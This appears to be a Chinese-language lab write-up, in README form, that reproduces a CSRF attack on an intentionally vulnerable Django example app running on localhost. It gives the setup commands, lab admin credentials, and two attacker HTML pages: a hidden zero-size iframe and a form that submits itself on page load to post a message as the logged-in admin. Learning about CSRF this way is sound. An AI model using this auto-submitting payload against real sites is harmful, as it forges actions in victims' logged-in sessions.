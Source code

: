 #CSRF-django
##环境
django（https://github.com/c-bata/django-unsecure-examples）

python server

##简介
/admin登陆，/csrf模拟留言板存在csrf

##利用

项目目录下有 django-unsecure-examples 文件夹，

开启mysql

	docker-compose up -d

![](image/6.png)

创建后台管理员  

	python3 manage.py createsuperuser
	admin
	admin@admin.com
	A12345678
	A12345678
	y

![](image/1.png)

开启django服务

	python3 manage.py runserver

![](image/2.png)

访问/admin登陆页面，登陆(admin/A12345678)

![](image/3.png)

开启攻击端服务器

	cd csrf_attach
	python3 -m http.server 8080

![](image/4.png)

在管理员登陆的情况下，访问127.0.0.1:8080/attack.html

![](image/5.png)

可以看见admin发表了留言，留言板成功CSRF了

## 分析

index.html

	<html lang="ja">
	<head>
	    <title>CSRF攻撃サイト</title>
	    <meta charset="UTF-8">
	</head>
	<body>
	    <p>ようこそ！</p>
	    <iframe width="0" height="0" src="attack.html"></iframe>
	</body>
	</html>

attack.html

	<html lang="ja">
	<head>
	    <title>CSRF攻撃サイト</title>
	    <meta charset="UTF-8">
	</head>
	<body onload="document.attackform.submit();">
	    <p>攻撃対象のアプリケーションを http://127.0.0.1:8000 で実行していて下さい。</p>
	
	    <form name="attackform" action="http://127.0.0.1:8000/csrf/" method="post">
	        <input type="text" name="content" value="THIS IS CSRF ATTACK!!!">
	        <button type="submit">投稿</button>
	    </form>
	</body>
	</html>

使用iframe包含的情况是比较棘手的，因为这个网页基本没什么东西，实际上它包含的网页 attack.html 也可以被流量监测到。

![](image/7.jpg)